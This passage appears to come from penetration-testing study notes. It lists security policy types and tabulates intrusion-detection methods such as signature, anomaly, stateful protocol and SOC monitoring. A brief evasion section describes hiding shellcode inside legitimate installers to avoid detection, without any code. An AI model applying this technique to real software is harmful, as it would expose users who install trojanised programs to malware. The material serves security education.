    * Application Policies
    * User Access Control Policies
    * File Management Policies
    * DDoS Protection Policies
    * Others

There are multiple ways to match an event or object with a security policy entry:

| Security Policy                          | Description |
|------------------------------------------|-------------|
| **Signature-based Detection**            | The operation of packets in the network and comparison with pre-built and pre-ordained attack patterns known as signatures. Any 100% match against these signatures will generate alarms. |
| **Heuristic / Statistical Anomaly Detection** | Behavioral comparison against an established baseline, including modus-operandi signatures for known APTs (Advanced Persistent Threats). The baseline identifies the norm for the network and common protocols. Any deviation from the maximum threshold generates alarms. |
| **Stateful Protocol Analysis Detection** | Recognizing the divergence of protocols by comparing events against pre-built profiles of generally accepted definitions of non-malicious activity. |
| **Live-monitoring and Alerting (SOC-based)** | A team of analysts in a dedicated (in-house or leased) SOC (Security Operations Center) uses live-feed software to monitor network activity and intermediate alarming systems for potential threats. They decide whether to act on threats or let automated mechanisms respond. |

</details>

<details>
<summary><h4>Evasion Techniques</h4></summary>

We can embed the shellcode into any installer, package, or program that we have at hand, hiding the payload shellcode deep within the legitimate code of the actual product. This greatly obfuscates our malicious code and, more importantly, lowers our detection chances.

</details>

</details>

</details>

---

📘 **Next step:** Continue with [PASSWORD ATTACKS](./07-password-attacks.md)
